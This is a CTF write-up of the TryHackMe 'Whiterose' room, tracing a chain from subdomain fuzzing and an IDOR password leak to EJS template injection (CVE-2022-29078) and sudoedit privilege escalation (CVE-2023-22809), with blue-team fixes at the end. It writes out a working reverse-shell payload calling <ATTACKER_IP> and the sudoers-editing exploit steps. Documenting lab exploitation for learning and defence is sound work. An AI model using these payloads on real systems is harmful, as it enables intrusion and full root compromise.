# Whiterose Writeup

**Machine Name:** Whiterose
**Platform:** TryHackMe
**Difficulty:** Easy

---

## Introduction

Whiterose is a Mr. Robot–themed room on TryHackMe, built around a fictional "Cyprus National Bank" web application. It doesn't fall to one big exploit. It's a chain of small trust failures: a hidden subdomain, a chat feature that leaks another user's password, an error message that overshares, and a template engine that trusts request parameters more than it should. None of these issues is dramatic by itself. Stacked together, they walk an unauthenticated visitor all the way to root.

## Phase 1: Enumeration

Started with a standard Nmap scan against the target.

> nmap -sV -sC \<TARGET_IP\>

Only two ports were open:

- 22/tcp: SSH (OpenSSH 7.6p1, Ubuntu)
- 80/tcp: HTTP (nginx 1.14.0, Ubuntu)

Visiting the site over HTTP redirected to `cyprusbank.thm`, so that hostname was added to `/etc/hosts`. The page itself was static, just a "National Bank of Cyprus" splash screen with a maintenance notice and nothing clickable.



## Phase 2: Finding the Admin Subdomain

A directory scan against the site root came back empty. No hidden paths, no backup files, nothing.



With directory brute-forcing exhausted, the next step was subdomain fuzzing using the `Host` header:

> ffuf -w /usr/share/wordlists/rockyou.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -mc 200,301,302,401,403 -fs 57



Two virtual hosts came back: `www` and `admin`.



`www.cyprusbank.thm` mirrored the same static maintenance page. `admin.cyprusbank.thm` served a real login form for managers and admins, with a link back to a separate customer login page.




> **Security Issue #1:** Admin Panel Reachable Through an Undocumented Subdomain. The main site gave no indication that an administrative interface existed anywhere. It was only discoverable by brute-forcing virtual hosts, meaning the only thing standing between an anonymous visitor and the bank's admin panel was a wordlist and a few minutes of fuzzing.

## Phase 3: An IDOR in the Admin Chat

The room's briefing came with a starter set of credentials for a low-privileged account.



Logging in with them landed on a dashboard listing recent payments and customer accounts, real-looking financial data with phone numbers masked for non-admin users.



The account also had access to a **Messages** page showing an internal admin chat thread. The URL carried a `c` parameter:

> admin.cyprusbank.thm/messages/?c=5




Nothing in the interface suggested this parameter was meant to be touched, so it was worth testing anyway. Changing `c=5` to `c=0` pulled up a completely different, much more interesting chat log: a developer asking a coworker for admin credentials "for testing," and that coworker replying with her password in plain text.



That password logged straight into the full admin account: phone numbers unmasked, extra navigation items, and a **Settings** page the starter account never had.



> **Security Issue #2:** Insecure Direct Object Reference (IDOR) in the Chat Feature. The `c` parameter selected which chat log to display with no ownership or role check behind it. A low-privileged, unrelated account could simply change the parameter and read an internal conversation where a full admin password had been shared in cleartext. A minor access-control bug turned into a full account takeover.

## Phase 4: An Error That Overshares

The new admin account exposed a **Customer Settings** page for updating a customer's name and password.



Intercepting the request in Burp showed a plain POST with two fields:

> POST /settings HTTP/1.1
> name=admin&password=admin



Removing the `password` field to see how the app would react didn't just throw a generic error. It returned a full stack trace. The trace named the exact internal file (`/home/web/app/views/settings.ejs`), confirmed the backend was a Node.js Express application rendering with the EJS template engine, and printed the full `node_modules` file layout along with it.



> **Security Issue #3:** Verbose Error Messages Leaking Internal Architecture. A single malformed request revealed the server's framework, templating engine, and internal folder structure. None of that should ever reach an end user. It's free reconnaissance that turns "some Node app" into a specific, targetable attack surface.

## Phase 5: Parameter Fuzzing Into an EJS Template Injection

Adding a throwaway third parameter (`something=x`) to the same request made the error disappear entirely and returned a normal "Password updated" response. That meant the app's behavior changed depending on which parameter names were present, not just their values.



That was enough reason to brute-force the parameter _name_ itself with Burp Intruder, cycling a wordlist through the third field's position.



One payload stood out: `include`, the only one that came back with a 500 and a noticeably different response length.



Sending that request through Repeater confirmed why: the parameter named `include` collided with something the application used internally, throwing `include is not a function` from inside the compiled EJS view.



That error is a known fingerprint. Older versions of EJS (3.1.6 and below) build part of the rendering function from an `outputFunctionName` option pulled straight from the request, with no validation. It's tracked as **CVE-2022-29078**. Sending `settings[view options][outputFunctionName]` as a parameter lets arbitrary JavaScript get spliced directly into the code EJS compiles and runs on the server.

> settings\[view options\]\[outputFunctionName\]=x;process.mainModule.require('child_process').execSync('busybox nc \<ATTACKER_IP\> 1111 -e bash');s



> **Security Issue #4:** Server-Side Template Injection Leading to RCE (CVE-2022-29078). The settings endpoint passed request parameters straight into EJS's render options with no allow-list and no sanitization. Because EJS builds part of its compiled template function from those options, an attacker-controlled parameter name became attacker-controlled code execution on the server, no authentication bypass or memory corruption needed, just an options object nobody filtered.

## Phase 6: Reverse Shell and the First Flag

With a listener ready, the payload above went out through the same vulnerable parameter.



The callback landed a few seconds later, dropping into a shell as the `web` user.



### First flag

`/home/web/user.txt` gave up the first flag.



## Phase 7: Privilege Escalation via sudoedit

`sudo -l` showed that `web` could run `sudoedit` on a single nginx config file as root, no password required.



`sudoedit` is supposed to be the safer alternative to full `sudo` for editing files. But Sudo versions from 1.8.0 through 1.9.12p1 mishandle extra arguments passed through the `EDITOR`, `VISUAL`, or `SUDO_EDITOR` environment variables, a flaw tracked as **CVE-2023-22809**. A `--` inside a custom editor value lets an attacker smuggle in an entirely different file, one they were never authorized to touch.

Exporting a malicious `EDITOR` pointed the "safe" edit at `/etc/sudoers` instead:

> export EDITOR="vim -- /etc/sudoers"



Running the authorized `sudoedit` command then opened both the permitted file and `/etc/sudoers` side by side in the same editor session.



From inside that editor, one line was enough to grant `web` unrestricted root access:

> web ALL=(root) NOPASSWD: ALL



`sudo bash` confirmed it. Instant root shell.

> **Security Issue #5:** sudoedit Argument Injection Privilege Escalation (CVE-2023-22809). A narrowly scoped `sudoedit` grant on one config file was meant to limit `web` to a single, harmless edit. An outdated Sudo version let a crafted `EDITOR` variable override that restriction completely, turning "edit one nginx file" into "edit any file on the system as root," sudoers included.

### Root flag

With root access, `/root/root.txt` closed out the room.



## Blue Team Perspective

Working back through this chain, here's what a defensive team could have caught, and where.

### 1. Undocumented Admin Subdomain

An admin panel reachable through a guessable subdomain, with no reference anywhere on the public site, is a trivial finding for any recon or attack-surface-management tool. Fix: keep administrative interfaces off public DNS, or put them behind a VPN or IP allow-list so subdomain enumeration alone can't reach them.

### 2. Broken Access Control on User-Controlled IDs

The chat feature trusted a raw, client-supplied ID with no ownership check at all. Fix: enforce object-level authorization on every ID-driven endpoint, and never let sensitive data, credentials especially, pass through a chat or messaging feature in plaintext.

### 3. Verbose Errors and Unsanitized Template Options in Production

A single malformed request revealed the framework and file paths, and eventually handed over a code-execution primitive through unfiltered render options. Fix: turn off detailed stack traces in production, log errors server-side only, and explicitly allow-list which parameters ever get merged into template render options rather than passing request data into them directly.

### 4. Outdated, Overly Permissive sudo Rules

One out-of-date sudo version turned a narrowly scoped `sudoedit` grant into full root. Fix: keep `sudo` patched against known CVEs, and treat every `NOPASSWD` or file-specific sudo rule as a potential privilege-escalation path worth testing during a review, not just during a pentest.

This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect. I'm always happy to discuss techniques and share resources.
